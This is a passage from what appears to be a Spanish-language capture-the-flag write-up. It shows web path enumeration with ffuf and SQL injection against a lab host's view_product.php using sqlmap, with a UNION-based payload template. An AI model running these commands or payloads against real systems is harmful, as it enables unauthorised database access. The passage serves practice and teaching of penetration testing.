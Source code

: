 #### ffuf

Para complementar lo obtenido se buscaron rutas adicionales por medio de `ffuf -c -ic -u http://10.10.10.167/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.bak,.php,.html`.

![Rutas adicionales encontradas](images/enum_6.png)

# Explotación

## Inyección SQL

### Ejecución

Teniendo en cuenta la tecnología empleada y parte de los parámetros usados, se buscó explotar una inyección SQL haciendo uso de `sqlmap`, utilizando `sqlmap -u "http://10.10.10.167/view_product.php" --data="productId=1" --dbs` obteniendo de esta forma payloads válidos y la capacidad de obtener los registros de la base de datos.

- Payload: `productId=1 UNION ALL SELECT <query>-- -`

![Inyección con sqlmap](images/exploit_1.png)
